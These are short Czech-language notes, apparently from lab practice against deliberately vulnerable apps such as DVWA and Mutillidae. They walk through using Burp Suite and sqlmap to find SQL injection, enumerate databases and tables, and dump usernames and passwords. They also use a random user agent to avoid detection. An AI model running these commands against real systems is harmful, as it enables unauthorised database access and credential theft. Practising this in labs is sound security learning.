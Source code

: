 1. zapnu burp suite a odeslu formular s udajema
2. ulozim si raw udaje do .txt souboru 
3. prikaz na mapovani SQL = sqlmap -r (ulozeny raw.txt) --batch --random-agent
        >> --batch =nepta se a automaticky pokracuje --random-agent =user agent kvuli odhaleni

        >> automaticky otestuje vsechny parametry ktere najde v .txt
        >> zkusi zranitelnost
        >> v pozitivnim nalezu mi sql da priklad    
            >> sqlmap resumed the following injection point(s) from stored session:
            Parameter: username (GET)

4. zjistit nazvy databazi

        >> sqlmap -r (raw z burp.txt) -p parametr ktery to naslo --dbs --dbms=(nazev DB kterou to identifikuje)--batch --random-agent --flush-session (smaze stare vysledky)

        >> dostanu vysledky typu (to jsou jednotliv)
                                    [*] bricks
                                    [*] bwapp
                                    [*] citizens
                                    [*] cryptomg
                                    [*] dvwa
                                    [*] gallery2
                                    [*] getboo
                                    [*] ghost
                                    [*] gtd-php

5. vybrat databazi z vyberu
        >> sqlmap -r raw.txt -p parametr ktery to naslo -D nazev databaze --tables --flush-session

        >> Database: nowasp
                            [12 tables]
                            +----------------------------+
                            | accounts                   |
                            | balloon_tips               |
                            | blogs_table                |
                            | captured_data              |
                            | credit_cards               |
                            | help_texts                 |
                            | hitlog                     |
                            | level_1_help_include_files |
                            | page_help                  |
                            | page_hints                 |
                            | pen_test_tools             |


6. zobrazeni sloupcu (pouze sloupe bez hodnot)
        >>  sqlmap -r raw.txt -p parametr co nasel burpsuite -D nazev databaze -T accounts --columns --dbms=mysql --batch --random-agent --flush-session

7. zobrazeni dat bud vsechny nebo jen urcite sloupce 

        urcite sloupce >> sqlmap -r req.txt -p username -D nowasp -T accounts --dump -C username,password --dbms=mysql --batch --random-agent --flush-session


        vsechny sloupce >> sqlmap -r req.txt -p username -D nowasp -T accounts --dump --dbms=mysql --batch --random-agent --flush-session
